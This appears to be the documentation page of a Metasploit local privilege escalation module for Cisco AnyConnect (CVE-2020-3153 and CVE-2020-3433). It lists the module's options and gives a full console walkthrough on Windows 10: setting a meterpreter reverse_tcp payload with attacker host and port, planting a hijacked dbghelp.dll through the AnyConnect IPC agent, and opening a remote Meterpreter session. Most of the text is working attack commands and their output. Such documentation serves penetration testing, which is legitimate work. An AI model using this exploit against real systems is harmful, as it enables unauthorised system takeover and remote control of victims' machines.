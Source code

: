 ## Options
### INSTALL_PATH
  Set Cisco AnyConnect Secure Mobility Client installation path (where
  `vpndownloader.exe`should be found). It will be automatically detectedif not set.

### CVE
  Set the CVE to use (CVE-2020-3153 or CVE-2020-3433). Default: CVE-2020-3433.

### ForceExploit

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.8.3052 - CVE-2020-3433

```
msf exploit(windows/local/anyconnect_lpe) > set SESSION 1
SESSION => 1
msf exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf exploit(windows/local/anyconnect_lpe) > set CVE CVE-2020-3433
CVE => CVE-2020-3433
msf exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.8.3052.0.0 < 4.9.00086 (CVE-2020-3433).
msf exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.8.3052.0.0 < 4.9.00086 (CVE-2020-3433).
[*] "-ipc" argument needed
[*] Creating directory C:\Users\ATGO\AppData\Local\Temp\16Nkpr
[*] Meterpreter Session
[*] C:\Users\ATGO\AppData\Local\Temp\16Nkpr created
[*] Writing the payload to C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=76731      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe     C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 288 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 3 opened (192.168.1.24:4445 -> 192.168.1.20:44712) at 2020-09-01 14:12:05 +0200
[+] Deleted C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll
[+] Deleted C:\Users\ATGO\AppData\Local\Temp\16Nkpr
[*] Shutdown the socket

```